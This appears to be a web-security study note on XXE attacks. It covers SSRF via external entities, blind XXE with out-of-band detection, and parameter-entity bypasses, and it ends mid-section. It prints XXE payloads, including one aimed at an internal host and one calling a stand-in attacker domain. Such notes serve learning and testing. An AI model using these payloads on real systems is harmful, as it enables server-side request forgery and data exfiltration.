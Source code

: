
### Exploiting XXE to perform SSRF attacks

- XXE  can be used to perform server-side request forgery (SSRF)
- The following payload can be used to exploit a SSRF via XXE

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>

```

#### Blind XXE vulnerabilities

- Many instances of XXE vulnerabilities are blind. This means that the application does not return the values of any defined external entities in its responses, and so direct retrieval of server-side files is not possible.
- Blind XXE vulnerabilities can still be detected and exploited, but more advanced techniques are required. You can sometimes use out-of-band techniques to find vulnerabilities and exploit them to exfiltrate data. And you can sometimes trigger XML parsing errors that lead to disclosure of sensitive data within error messages.
- There are two broad ways in which you can find and exploit blind XXE vulnerabilities:
	- You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
	- You can trigger XML parsing errors in such a way that the error messages contain sensitive data.
###### Detecting blind XXE using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques

. The following payload can be used to achieve the blind XXE

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```
- This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.



### Bypasses 

- Sometimes, XXE attacks using **regular entities are blocked**, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, **you might be able to use XML parameter entities instead**. XML parameter entities are a **special kind of XML entity which can only be referenced elsewhere within the DTD**.

- Declaration of an XML parameter entity includes the percent character before the entity name:

`<!ENTITY % myparameterentity "my parameter entity value" >`

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

`%myparameterentity;`

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:
